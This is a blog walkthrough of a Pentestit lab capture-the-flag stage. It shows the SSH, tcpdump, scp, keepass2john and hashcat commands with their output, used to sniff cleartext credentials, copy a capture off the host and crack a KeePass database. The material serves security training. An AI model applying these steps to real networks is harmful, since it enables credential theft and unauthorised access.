 ```yaml
---
layout: single
title: "Pentestit Lab v11 - Cloud Token (8/12)"
header:
  overlay_image: gds-banner.jpg
  caption: "[__Pentestit Lab__](https://lab.pentestit.ru/)"
related: true
comments: true
---
```


In my previous post "[Pentestit Lab v11 - Connect Token (7/12)](https://jhalon.github.io/pentestit-lab-11-connect-token/)", we footprinted the __192.168.11.1__ subnet, exploited a Command Injection Vulnerability, carried out Post-Exploitation Reconnaissance, and utilized a Rouge FTP Server Response to attain our seventh token. Today we will continue our exploitation of the __192.168.10.1__ machine - which will include the following: 

* Utilizing TCPDump for Network Reconnaissance
* Accessing the Cloud Server
* Cracking a KeePass Hash
* Finding the Cloud Token

## Utilizing TCPDump for Network Reconnaissance

If you recall correctly, in my previous post we compromised a Private RSA Key on the __192.168.11.1__ machine for the user __aengineer__, which allowed us to connect to __192.168.10.1__ and lead to us compromising the Connect Token via the Rouge FTP Response.

```console
remote@tl11-192-168-11-1:~$ ssh -i /home/remote/.ssh/id_rsa -o StrictHostKeyChecking=no aengineer@192.168.10.1
You have new mail.
Last login: Wed Jul 19 18:50:02 2017 from 192.168.11.1
##########################
PasswordAuthentication no
##########################
aengineer@tl11-192-168-10-1:~$
```

Now since we didn't really carry out any post-exploitation reconnaissance on the __192.168.10.1__ machine, I decided to look around and see what I could find.

After some time I came across [tcpdump](http://www.tcpdump.org/tcpdump_man.html) which was installed on the device. What was interesting about this was that tcpdump was [configured diffrently](https://peternixon.net/news/2012/01/28/configure-tcpdump-work-non-root-user-opensuse-using-file-system-capabilities/) - usually to run it you required root permissions, but in this case, aengineer was allowed to utilize tcpdump.

In general, it's always useful to have the ability to check and record traffic on a compromised machine - since we can learn a lot of interesting things about the network, and or user activity.

At this point I decided to utilize tcpdump and capture some packets on the __eth0__ interface.

```console
aengineer@tl11-192-168-10-1:~$ /usr/sbin/tcpdump -i eth0 -A '' -w /var/tmp/aedump.pcap
tcpdump: listening on eth0, link-type EN10MB (Ethernet), capture size 262144 bytes
^C237 packets captured
238 packets received by filter
0 packets dropped by kernel
```

Once some packets were captured, I utilized [SCP](https://en.wikipedia.org/wiki/Secure_copy) to transfer the files back to my Kali Machine so I can use [Wireshark](https://www.wireshark.org/) to analyze the packets.

```console
root@kali:~/pentestit# scp -i aengineer.key aengineer@192.168.10.1:/var/tmp/aedump.pcap aedump.pcap
aedump.pcap 
```

Once I opened the pcap in Wireshark, I followed the TPC Stream and noticed something rather interesting.

<a href="/images/ptl-58.png"><img src="/images/ptl-58.png"></a>

It looks like there was a POST Request made to the __192.168.10.3__ machine, with what seems to be a login! Lucky for us this is an HTTP POST Request and not an HTTPS one, so everything is in clear text, making it easier for us to capture credentials, tokens, and more on the wire!

## Accessing the Cloud Server

Now that we have valid credentials, let's navigate to the __192.168.10.3__ device in our web browser, and we should be presented with what seems to be a Cloud Hosting Service login page.

<a href="/images/ptl-59.png"><img src="/images/ptl-59.png"></a>

Once we successfully login with our new found credentials, we will find a file called __my\_store.kdbx__, which seems to be a KeePass database file!

<a href="/images/ptl-60.png"><img src="/images/ptl-60.png"></a>

## Cracking a KeePass Hash

From here, let's go ahead and download the KeePass File, extract the hash and attempt to crack it so we can login and access anything stored in the KeePass database.

To extract the hash of the password I will be using a tool called [KeePass2John](https://www.rubydevices.com.au/blog/how-to-hack-keepass).

```console
root@kali:~/pentestit# keepass2john my_store.kdbx 
my_store:$keepass$*2*100000*222*248fc218b7a47edeecd7a79e8587d5ff2c2221d98efd99837fe198ab0de8a82e*330c91f974cb4df1d015bb15456d382db9c0c2f362909d5cd74f9b951fdee2f7*828fb21b74cda7ae28a21473aaa62384*f974657de86a3aca6faec09804d852a4df5fba5847e54d18e12bd81c33cce528*7ca22042949d204e2f35aae52982946c101679205aa8db0ece2135cdb574170c
```

Once you have the hash, copy and paste it over to a new text file. In my case I called the file __my\_store\_hash__.

```console
root@kali:~/pentestit# cat my_store_hash 
$keepass$*2*100000*222*248fc218b7a47edeecd7a79e8587d5ff2c2221d98efd99837fe198ab0de8a82e*330c91f974cb4df1d015bb15456d382db9c0c2f362909d5cd74f9b951fdee2f7*828fb21b74cda7ae28a21473aaa62384*f974657de86a3aca6faec09804d852a4df5fba5847e54d18e12bd81c33cce528*7ca22042949d204e2f35aae52982946c101679205aa8db0ece2135cdb574170c
```

Now that the Hash is in a new file, let's fire up [HashCat](https://hashcat.net/wiki/doku.php?id=hashcat) and start cracking! For the hash mode option [__-m__] we are going to use __13400__, which is the hash mode for KeePass 1 (AES/Twofish) and KeePass 2 (AES).

```console
root@kali:~/pentestit# hashcat -a 0 -m 13400 my_store_hash /usr/share/wordlists/rockyou.txt 
hashcat (v3.5.0) starting...

OpenCL Platform #1: Intel(R) Corporation
========================================
* Device #1: Intel(R) Core(TM) i7-5820K CPU @ 3.30GHz, 988/3955 MB allocatable, 4MCU

OpenCL Platform #2: Mesa, skipped or no OpenCL compatible devices found.

Hashes: 1 digests; 1 unique digests, 1 unique salts
Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates
Rules: 1

Applicable optimizers:
* Zero-Byte
* Single-Hash
* Single-Salt

Watchdog: Hardware monitoring interface not found on your system.
Watchdog: Temperature abort trigger disabled.
Watchdog: Temperature retain trigger disabled.

$keepass$*2*100000*222*248fc218b7a47edeecd7a79e8587d5ff2c2221d98efd99837fe198ab0de8a82e*330c91f974cb4df1d015bb15456d382db9c0c2f362909d5cd74f9b951fdee2f7*828fb21b74cda7ae28a21473aaa62384*f974657de86a3aca6faec09804d852a4df5fba5847e54d18e12bd81c33cce528*7ca22042949d204e2f35aae52982946c101679205aa8db0ece2135cdb574170c:reajel
                                                          
Session..........: hashcat
Status...........: Cracked
Hash.Type........: KeePass 1 (AES/Twofish) and KeePass 2 (AES)
Hash.Target......: $keepass$*2*100000*222*248fc218b7a47edeecd7a79e8587...74170c
Time.Started.....: Wed Jul 19 11:45:34 2017 (7 mins, 34 secs)
Time.Estimated...: Wed Jul 19 11:53:08 2017 (0 secs)
Guess.Base.......: File (rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.Dev.#1.....:      170 H/s (8.95ms)
Recovered........: 1/1 (100.00%) Digests, 1/1 (100.00%) Salts
Progress.........: 77440/80405 (96.31%)
Rejected.........: 0/77440 (0.00%)
Restore.Point....: 76800/80405 (95.52%)
Candidates.#1....: real178 -> readuornot
HWMon.Dev.#1.....: N/A

Started: Wed Jul 19 11:45:33 2017
Stopped: Wed Jul 19 11:53:10 2017
```

## Finding the Cloud Token

Perfect! So we were able to crack the password using the RockYou password list! Once we have the password, open up the KeePass database using KeePass, enter the password, and we should find our token!

<a href="/images/ptl-61.png"><img src="/images/ptl-61.png"></a>

## Token (8/12)

Congrats on finding the token! Go ahead and submit it on the main page to gain points for it!

You might be wondering why I didn't post the actual token. Well, what would be the fun in that if I did? Go through and actually try to get the token via tcpdump and HashCat.

You learn by doing, so go through this walkthrough, and the lab - and learn something new!

That's all for now, stay tuned for my next post as we compromise Token (9/12) - The CLAMAV Token!
